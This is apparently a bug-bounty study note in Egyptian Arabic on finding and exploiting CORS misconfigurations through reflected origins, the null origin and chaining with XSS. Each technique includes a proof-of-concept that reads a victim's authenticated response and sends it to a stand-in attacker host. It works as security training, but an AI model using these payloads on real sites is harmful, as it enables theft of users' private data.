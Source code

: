 ____
# الخلاصة
انت بتحط ال origin header وبتجرب في قيم زي:
- null
- *
- https://evil.com
- https://website.com
- https://xssvuln.website.com

وبتشوف ال response هل فيه ال 2 headers دول ولا لأ:

```http
----
Access-Control-Allow-Origin: https://evil.com 
OR 
Access-Control-Allow-Origin: *
OR
Access-Control-Allow-Origin: null
OR
Access-Control-Allow-Origin: https://xssvuln.website.com


Access-Control-Allow-Credentials: true
----
```
___




### ما هي ال CORS؟

قبل م نعرف لازم نفهم يعني اي Same Origin Policy
![[Pasted image 20240721160252.png]]
![[Pasted image 20240721160506.png]]

REQUEST
```http
-----
Origin: https://evil.com
-----
```

RESPONSE
```http
-----
Access-Control-Allow-Origin: https://evil.com OR Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
-----
```

<mark style="background: #FFB86CA6;">This is a vulnerability!</mark>

![[Pasted image 20240721161300.png]]

----
### Some Techniques

1. اشهر Misconf هو اللي بي reflect ال origin
REQUEST
```http
-----
Origin: https://evil.com
-----
```

RESPONSE
```http
-----
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
-----
```

ودا الاستغلال بتاعها:
```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```
==================================================================

2. تاني اشهر واحد هو null
REQUEST
```http
----
Origin: null
----
```

RESPONSE
```http
----
Access-Control-Allow-Origin: null
----
```

ودا استغلالها بيعتمد علي iframe sand-boxed

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```
==================================================================

3. CORS Chained with XSS!

لو لقيت CORS بس بيقبل فقط ال subdomains مثلا لكن لقيت في subdomain انه فيه ثغرة XSS.
هنا في احتمالية كبيرة انه الثغرة تشتغل معاك بال POC دا:
```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://www.vulnerable.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

هتحطه في مكان ال XSS وبس!
ووقت الأستغلال هتعمل الاتي:
```html
<script>
document.location = "https://xssvuln.website.com?vuln=YOUR_EXPLOIT_URL_ENCODED"
</script>
```
